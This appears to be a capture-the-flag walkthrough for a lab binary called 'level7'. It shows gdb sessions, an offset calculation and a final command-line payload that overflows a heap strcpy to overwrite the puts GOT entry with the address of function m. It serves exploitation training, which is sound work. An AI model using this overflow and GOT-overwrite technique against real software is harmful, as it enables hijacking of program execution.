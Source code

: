 The `main` function expects 2 arguments to get `c` value to be print by `m`, so therefore, execute `m` by hijacking the `puts` execution.

1. Find the buffer size of the first `strcpy`.
In gdb :
```
(gdb) run AAA AAA
Starting program: /home/user/level7/level7 AAA AAA

Breakpoint 1, 0x080485a0 in main ()
(gdb) i r $eax
eax            0x804a018	134520856
(gdb) x /128x 0x804a018
0x804a018:	0x00000000	0x00000000	0x00000000	0x00000011
0x804a028:	0x00000002	0x0804a038	0x00000000	0x00000011
```
```
>>> int(hex(0x804a028 - 0x804a018), 16) + 4
20
```

2. Playing around
We can observe the overflow of the first `strcpy` in eax of the second one provocating a Segmentation fault.
```
Starting program: /home/user/level7/level7 $(python -c "print 'A' * 20 + 'BBBB'") $(python -c "print 'A'")

Breakpoint 1, 0x080485bd in main ()
(gdb) i r $eax
eax            0x42424242	1111638594
(gdb) c
Continuing.
Program received signal SIGSEGV, Segmentation fault.
0xb7eb18f3 in ?? () from /lib/i386-linux-gnu/libc.so.6
```

Our First `strcpy` can help rewrite the destination address (eax) of the second one.

3. Use that observation to replace the address of `puts` with the address of `m`.
```
(gdb) x 0x8048400
   0x8048400 <puts@plt>:	0x992825ff
(gdb) disas 0x8048400
Dump of assembler code for function puts@plt:
  0x08048400 <+0>:	jmp    *0x8049928
  0x08048406 <+6>:	push   $0x28
  0x0804840b <+11>:	jmp    0x80483a0
End of assembler dump.
```
The address of `puts` is `0x8049928`.
```
(gdb) x m
0x80484f4 <m>:	0x83e58955
```
The address of `m` is `0x80484f4`.

Test :
```
Starting program: /home/user/level7/level7 $(python -c "print 'A' * 20 + '\x28\x99\x04\x08'") $(python -c "print '\xf4\x84\x04\x08'")

Breakpoint 1, 0x080485bd in main ()
(gdb) x 0x8049928
0x8049928 <puts@got.plt>:	0x08048406
(gdb) c
Continuing.

Breakpoint 2, 0x080485d3 in main ()
(gdb) x 0x8049928
0x8049928 <puts@got.plt>:	0x080484f4
```
It works !

4. Finally, in the terminal :
```
./level7 $(python -c "print 'A' * 20 + '\x28\x99\x04\x08'") $(python -c "print '\xf4\x84\x04\x08'")
```